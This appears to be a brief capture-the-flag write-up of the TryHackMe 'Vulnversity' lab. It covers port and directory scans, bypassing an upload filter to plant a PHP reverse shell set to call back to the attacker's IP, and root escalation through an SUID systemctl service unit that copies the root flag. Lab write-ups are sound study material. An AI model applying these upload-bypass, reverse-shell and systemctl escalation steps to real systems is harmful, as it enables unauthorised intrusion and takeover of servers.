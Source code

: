 tryhackme | vulnversity

https://tryhackme.com/r/room/vulnversity

writeups:

https://unicornsec.com/home/tryhackme-vulnversity


#### nmap scan:

```bash
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack vsftpd 3.0.3
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack Squid http proxy 3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.12
3333/tcp open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
|_  0/4 checks are positive: Host is CLEAN or ports are blocke
```



#### dirbuster scan: 

`gobuster dir -u http://10.10.33.213/3333 -w /usr/share/wordlists/dirb/common.txt -t 4 -o dirb.txt`

```bash
/.hta                 (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/css                  (Status: 301) [Size: 317] [--> http://10.10.33.213:3333/css/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.33.213:3333/fonts/]
/images               (Status: 301) [Size: 320] [--> http://10.10.33.213:3333/images/]
/index.html           (Status: 200) [Size: 33014]
/internal             (Status: 301) [Size: 322] [--> http://10.10.33.213:3333/internal/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.33.213:3333/js/]
/server-status        (Status: 403) [Size: 302]
```

#### upload/text extension filtering using burpsuite: 

Burpsuite->Connect ProxyIntercepter->Test Extensions


#### Upload .phtml php payload
use payload from `/usr/share/webshells/php/php-reverse-shell.php`

edit following values (using tun0 network IP)

```bash
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.6.16.52  netmask 255.255.128.0  destination 10.6.16.52
```


```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.16.52';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Upload file to and curl it

`curl http://10.10.33.213:3333/internal/uploads/php-reverse-shell.phtml`


after gaining access, search for SUID permission programs, this file stands out: 

`/bin/systemctl`

create env variable, echo a file that outputs root flag to a tmp file

```bash
[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"

[Install]
WantedBy=multi-user.target
```









